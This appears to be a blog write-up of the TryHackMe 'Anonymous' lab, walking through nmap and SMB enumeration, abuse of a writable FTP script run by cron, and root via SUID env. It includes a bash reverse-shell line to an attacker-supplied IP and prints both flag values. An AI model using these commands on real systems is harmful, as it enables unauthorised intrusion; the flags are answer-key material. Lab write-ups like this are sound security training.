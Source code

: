 ```yaml
---
title: TryHackMe - Anonymous
date: 2022-11-24 14:35:00 +0530
categories: [TryHackMe]
tags: [tryhackme, Medium]
---
```


-------

**Description :** Try to get the two flags!  Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

Room : [https://tryhackme.com/room/anonymous](https://tryhackme.com/room/anonymous)

Difficulty : Medium

Before starting the tests, adding the machine IP to `/etc/hosts` would help resolving IP to hostname as `anon.thm`

## Enumeration

Starting with Nmap scan.

```console
$ sudo nmap -Pn anon.thm
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-23 07:06 EST
Nmap scan report for anon.thm (10.10.147.115)
Host is up (0.18s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 2.02 seconds


$ sudo nmap -sC -sV -p21,22,139,445 anon.thm      
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-23 07:26 EST
Nmap scan report for anon.thm (10.10.147.115)
Host is up (0.16s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.7.122
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8bca21621c2b23fa6bc61fa813fe1c68 (RSA)
|   256 9589a412e2e6ab905d4519ff415f74ce (ECDSA)
|_  256 e12a96a4ea8f688fcc74b8f0287270cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-11-23T12:26:52
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-11-23T12:26:52+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.29 seconds
```
Now we can answer some of the questions.

| Enumerate the machine.  How many ports are open? | 4   |
| What service is running on port 21?              | FTP |
| What service is running on ports 139 and 445     | SMB |

Lets continue with enumerating **SMB** and **FTP** as anonymous login is allowed.

```console
$ smbclient -L \\anon.thm -N                          

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS

$ smbclient //anon.thm/pics -c 'ls' -N                
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020

                20508240 blocks of size 1024. 13306816 blocks available
```
Nothing juicy in smb shares. Lets enumerate FTP by mounting it.

```console
$ mkdir /mnt/anon_ftp
$ sudo curlftpfs anonymous@anon.thm /mnt/anon_ftp
$ sudo -i
$ cd /mnt/anon_ftp
$ ls
scripts
$ cd scripts
$ ls -al
total 16
drwxrwxrwx 2 root root 4096 Jun  4  2020 .
drwxr-xr-x 1 root root 1024 Dec 31  1969 ..
-rwxr-xrwx 1 root root  314 Jun  4  2020 clean.sh
-rw-rw-r-- 1 root root 2494 Nov 24  2022 removed_files.log
-rw-r--r-- 1 root root   68 May 12  2020 to_do.txt
```

There are 3 files here. lets check whats in the files.

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
{: file='/mnt/anon_ftp/scripts/clean.sh'}

```
I really need to disable the anonymous login...it's really not safe
```
{: file='/mnt/anon_ftp/scripts/to_do.txt'}

```
Running cleanup script:  nothing to delete
```
{: file='/mnt/anon_ftp/scripts/removed_files.log'}


By checking the above files, we can come to some conclusions.
1. `clean.sh` is being executed as root by some cron job.
2. The execution results are logged into `removed_files.log`

## Initial Exploitation

we can place our exploitation code in `clean.sh` and **echo** that result into `removed_files.log`. It will get executed with root perms by cron job.

Simple commands did work, but the `netcat` on anon.thm machine could not establish a stable connection to my netcat listener. so we can use bash for this.

Start the netcat listener and Modify cleanup.sh to connect to our listener.

```bash
bash -i >& /dev/tcp/your_ip_here/1234 0>&1
```

After waiting for the cron job to run the script, we recieve a shell.

```console
$ whoami
namelessone
$ id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
$ cat user.txt
90d6f992585815ff991e68748c414740
```
## Privilege Escalation

It is evident that we are part of **sudo** group.

I tried to run some commands, but some of them didnt seem to exist in the machine. so i resorted to using `linpeas.sh` and `LinEnum.sh`. Both of the outputs have one thing in common.
1. `namelessone` user is part of `lxd` group. A quick google search said we can escalate to **root** using this way, but i didnt choose this.
2. `/usr/bin/env` has **SUID** bit set.

From **GTFObins**, we can get an escalation using **env**. [Exploit](https://gtfobins.github.io/gtfobins/env/#suid)
```console
$ /usr/bin/env /bin/sh -p
$ whoami
root
$ cat /root/root.txt
4d930091c31a622a7ed10f27999af363
```

